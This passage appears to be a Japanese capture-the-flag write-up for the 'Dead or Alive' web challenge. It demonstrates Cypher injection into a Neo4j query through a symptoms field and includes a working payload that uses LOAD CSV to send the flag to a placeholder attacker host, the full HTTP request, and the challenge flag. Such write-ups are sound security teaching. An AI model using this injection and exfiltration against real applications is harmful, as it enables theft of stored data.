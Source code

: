 
`ssn`は9文字しか入れられないので、`symptoms`を使えば良さそう。  
Cypher Injectionは初めてやるので、HackTricksのサイトを見ながらローカルで試行錯誤した。  
<https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j>

`LOAD CSV`を使うことで、外部サイトにリクエストを送信できるっぽいので、以下のようなペイロードを作成。

```text
Fever'] MATCH (f:Flag) WITH f.flag as ff LOAD CSV FROM 'https://<attacker>/'+ff AS y//
```

サーバ側では以下のようなクエリが実行される。  
MATCHが複数ある場合は、直前のMATCHの結果がTrueにならないと以降が実行されないっぽいので少しはまった。  
`1 OR 1`を挟めばもっと楽だったぽい。

```text
MATCH (p:Patient {ssn: '0000test'})
MATCH (s:Symptom) WHERE s.name in ['Fever'] MATCH (f:Flag) WITH f.flag as ff LOAD CSV FROM 'https://<attacker>/'+ff AS y//
MERGE (p)-[r:HAS]->(s)
```

最終的に以下のようなリクエストを送信すると、サーバにFLAGが送られてくる。

```http
POST /api/setSymptoms HTTP/2
Host: dead-or-alive.ctfz.one
Content-Length: 134
Sec-Ch-Ua: 
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Origin: https://dead-or-alive.ctfz.one
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://dead-or-alive.ctfz.one/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

{"ssn":"test","symptoms":["Fever'] MATCH (f:Flag) WITH f.flag as ff LOAD CSV FROM 'https://<attacker>/'+ff AS y//"]}
```

- FLAG

```text
ctfzone{N0w_Y0u_4re_C0mpl3t3ly_H34lTy!}
```

### 別解：Web/Dead or Alive 2

応答差分から一文字ずつの判定もできたっぽい。
